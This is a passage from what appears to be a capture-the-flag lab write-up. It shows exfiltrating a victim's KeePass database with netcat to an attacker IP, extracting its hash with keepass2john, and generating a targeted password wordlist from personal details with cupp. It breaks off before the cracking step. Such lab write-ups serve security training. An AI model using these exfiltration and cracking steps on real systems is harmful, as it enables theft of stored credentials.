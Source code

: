 ```console
www-data@mountaineer:/home$ nc 10.11.72.22 444 < /home/lhotse/Backup.kdbx
```

We can try to crack the master password for the database using `john`. 

First, we generate a hash for the database using `keepass2john`.

```console
$ keepass2john Backup.kdbx > keepass_hash
```

However, attempting to crack the hash with common wordlists does not yield any results.

### Generating a Custom Wordlist

Since the wordlists we have do not work, we can create a custom wordlist using the information we discovered in `Roundcube` for the `lhotse` user.

To generate our wordlist, we can use the `cupp` tool.

```
$ cupp -i
 ___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Mount
> Surname: Lhotse
> Nickname: MrSecurity
> Birthdate (DDMMYYYY): 18051956

...

> Pet's name: Lhotsy
> Company name: BestMountainsInc

...

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to mount.txt, counting 1926 words.
[+] Now load your pistolero with mount.txt and shoot! Good luck!
```

### Cracking the KeePass Master Password
